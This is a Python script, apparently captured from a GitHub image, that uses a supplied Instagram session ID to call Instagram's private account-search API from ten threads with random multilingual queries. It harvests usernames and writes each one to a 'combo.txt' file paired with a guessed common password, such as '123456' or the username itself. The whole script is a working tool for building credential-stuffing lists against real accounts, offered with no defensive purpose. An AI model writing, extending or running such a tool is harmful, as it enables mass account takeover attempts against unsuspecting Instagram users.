 import os
import threading
import random
from base64 import b64encode
import re
try:
    import requests
    from faker import Faker
except:
    os.system("pip install requests faker")
    import requests   
    from faker import Faker
    
    

ses = input("Enter Your SessionID : ")
user_id = re.match(r"(\d+)", ses).group(1)
Actok = b64encode(f'{{"ds_user_id":"{user_id}","sessionid":"{ses}"}}'.encode('utf-8'))
Arab = Faker("ar_AE")  
English = Faker("en_US")  
French = Faker("fr_FR")  
Spanish = Faker("es_ES")  
German = Faker("de_DE")  
Italian = Faker("it_IT")  
Portuguese = Faker("pt_PT")  
Russian = Faker("ru_RU")  
Chinese = Faker("zh_CN")  
Japanese = Faker("ja_JP")  
Korean = Faker("ko_KR")  
Hindi = Faker("hi_IN")  
Turkish = Faker("tr_TR")  
Persian = Faker("fa_IR")  
headers = {
    'User-Agent': "Instagram 368.0.0.45.96 Android (30/11; 440dpi; 1080x2220; Xiaomi/Redmi; 23127PN0CC; begonia; mt6785; ar_EG; 700073482)",
    'x-bloks-version-id': "dbfb0f84b6481f4ec0a033d7947fb45db546b8cee18dde220c4c1eefd3bb3dcb", 
    'authorization': f"Bearer IGT:2:{Actok.decode('utf-8')}",
    'x-ig-app-id': "567067343352427",  
}
AllEmail = set() 
def more_page(params, pag, ran):
    while True:
        try:
            params.update({
                'next_max_id': pag,
                'rank_token': ran,
                'page_token': pag
            })
            response = requests.get("https://i.instagram.com/api/v1/fbsearch/account_serp/", params=params, headers=headers)
            TnT = response.json()
            usernames = [user['username'] for user in TnT.get('users', [])]          
            for username in usernames:
                if username not in AllEmail:
                	pas= [
                  "123456",
    "12345@@",
     username,
    "qwerqwer",
    "Aa1234",
    "00998877",
    "qqwweerr",
    "1q2w3e4r",
    "1234567",
    "12345678",
    "098765",
    "qwertyuiop",
    "11223344",
    "1122334455",
    "qwer1234",
    "password",
    "mmnnbbvv",
    "ppooiiuu",
    "12345a",
    "123456789"
]

  
                    
                	pasw= random.choice(pas)
                	print(username+'/'+pasw)

                	
                	with open('combo.txt', 'a') as f:
                		f.write(f'{username}:{pasw}'+'\n') 
                else:
                    pass
            if TnT.get('has_more'):
                ran = TnT.get("rank_token")
                pag = TnT.get("page_token")             
            else:
                print("Done See All Page")               
                break
        except Exception as e:
            print(e)           
            
def search():
    while True:
        try:
            kill = random.choice([
            'دجحخهعغفقثصضشسيبلاتنمكطظزوةىلؤءئ',  
            '1234567890azertyuiopmlkjhgfdsqwxcvbn',  
            'アイウエオカキクケコサシスセソタチツテトナニヌネノハヒフヘホマミムメモヤユヨラリルレロワヲン',
            'あいうえおかきくけこさしすせそたちつてとなにぬねのはひふへほまみむめもやゆよらりるれろわをん',
            'ABCÇDEFGĞHIİJKLMNOÖPRSŞTÜVYZ',  
            'АБВГДЕЁЖЗИЙКЛМНОПРСТУФХЦЧШЩЪЫЬЭЮЯ',  
            'अआइईउऊऋएऐओऔकखगघङचछजझञटठडढणतथदधनपफबभमयरलवशषसहक्षत्रज्ञ',  
            'ابپتثجچحخدذرزژسشصضطظعغفقکگلمنوهی'
            'あいうえおかきくけこさしすせそたちつてとなにぬねのはひふへほまみむめもやゆよらりるれろわをん',
            'अआइईउऊऋएऐओऔअंअःकखगघङचछजझञटठडढणतथदधनपफबभमयरलवशषसहक्षत्रज्ञ',
            'กขฃคฅฆงจฉชซฌญฎฏฐฑฒณดตถทธนบปผฝพฟภมยรฤฤลฦวศษสหฬอฮ',
            'ㅏㅐㅑㅒㅓㅔㅕㅖㅗㅘㅙㅚㅛㅜㅝㅞㅟㅠㅡㅢㅣㄱㄲㄴㄷㄸㄹㅁㅂㅃㅅㅆㅇㅈㅉㅊㅋㅌㅍㅎ',
            'ğüişöçñäüğüişöçñäüğüişöçñäüqw.ertyuiopasdfghjklzxcvbnm',
            'abcdefghijklmnopqrstuvwxyzéèêëàâäôùûüîïç',
            'абвгдеёжзийклмнопрстуфхцчшщъыьэюя',  'абвгдеёжзийклмнопрстуфхцчшщъыьэюя','абвгдеёжзийклмнопрстуфхцчшщъыьэюя','的一是不了人我在有他这为之大来以个中上们到说时国和地要就出会可也你对生能而子那得于着下自之','的一是不了人我在有他这为之大来以个中上们到说时国和地要就出会可也你对生能而子那得于着下自之','的一是不了人我在有他这为之大来以个中上们到说时国和地要就出会可也你对生能而子那得于着下自之','アイウエオカキクケコサシスセソタチツテトナニヌネノハヒフヘホマミムメモヤユヨラリルレロワヲン',  'アイウエオカキクケコサシスセソタチツテトナニヌネノハヒフヘホマミムメモヤユヨラリルレロワヲン','あいうえおかきくけこさしすせそたちつてとなにぬねのはひふへほまみむめもやゆよらりるれろわをん', 'あいうえおかきくけこさしすせそたちつてとなにぬねのはひふへほまみむめもやゆよらりるれろわをん','אבגדהוזחטיכלמנסעפצקרשת','אבגדהוזחטיכלמנסעפצקרשת','αβγδεζηθικλμνξοπρστυφχψω','αβγδεζηθικλμνξοπρστυφχψω','กขฃคฅฆงจฉชซฌญฎฏฐฑฒณดตถทธนบปผฝพฟภมยรฤฤลฦวศษสหฬอฮ','กขฃคฅฆงจฉชซฌญฎฏฐฑฒณดตถทธนบปผฝพฟภมยรฤฤลฦวศษสหฬอฮ','अआइईउऊऋएऐओऔअंअःकखगघङचछजझञटठडढणतथदधनपफबभमयरलवशषसहक्षत्रज्ञ','अआइईउऊऋएऐओऔअंअःकखगघङचछजझञटठडढणतथदधनपफबभमयरलवशषसहक्षत्रज्ञ','ضصثقفغعهخحجطكمنتالبيسشءذؤرىةوزظد','ذءؤرىةوزظدطكمنتالبيسشضصثقفغعهخحح','جطدظزوةىرؤءذشضصسيبقبفلناهغحاظا','qwertyuioplkjhgfdsazxcvbnm','plmnjkoiuytrewqasdfghjbvcxz','zxcvbnmasdfghjklqwertyuiop','1234567890asdfghjklmnbvcxzqwertyuiop','mnbvcxzasdfghjklpoiuytrewq1478096523'
        ])   
            key = ''.join((random.choice(kill) for _ in range(random.randrange(3, 15))))
            rng = int("".join(random.choice("6789") for _ in range(1)))
            name = "".join(random.choice("1234567890qwertyuiopasdfghjklzxcvbnm.") for _ in range(rng))
            fuck = random.choice([Arab.name(),English.name(),French.name(),Spanish.name(),German.name(),Italian.name(),Portuguese.name(),Russian.name(),Chinese.name(),Japanese.name(),Korean.name(),Hindi.name(),Turkish.name(),Persian.name()])
            nmn = random.choice([Arab.user_name(),English.user_name(),French.user_name(),Spanish.user_name(),German.user_name(),Italian.user_name(),Portuguese.user_name(),Russian.user_name(),Chinese.user_name(),Japanese.user_name(),Korean.user_name(),Hindi.user_name(),Turkish.user_name(),Persian.user_name()])
            usery = random.choice([name, key, fuck, nmn])      	
            params = {
                'search_surface': "user_serp",
                'timezone_offset': "10800",
                'enable_metadata': "false",
                'count': "30",
                'query': usery,
                'disable_ads': "false"
            }          
            response = requests.get("https://i.instagram.com/api/v1/fbsearch/account_serp/", params=params, headers=headers)
            TnT = response.json()
            usernames = [user['username'] for user in TnT.get('users', [])]
              
            for username in usernames:
                if username not in AllEmail:
                	pas= [
                  "123456",
    "12345@@",
     username,
    "qwerqwer",
    "Aa1234",
    "00998877",
    "qqwweerr",
    "1q2w3e4r",
    "1234567",
    "12345678",
    "098765",
    "qwertyuiop",
    "11223344",
    "1122334455",
    "qwer1234",
    "password",
    "mmnnbbvv",
    "ppooiiuu",
    "12345a",
    "123456789"
]

  
                    
                	pasw= random.choice(pas)
                	print(username+'/'+pasw)

                	
                	with open('combo.txt', 'a') as f:
                		f.write(f'{username}:{pasw}'+'\n') 
                else:
                    pass
            if TnT.get('has_more'):
                ran = TnT.get("rank_token")
                pag = TnT.get("page_token")            
                more_page(params, pag, ran)
            else:
                print("No User")
                
        except Exception as e:
            print(e)
            pass
        
  
threads = []
for i in range(10):
    t = threading.Thread(target=search)
    threads.append(t)
    t.start()
for t in threads:
    t.join()      
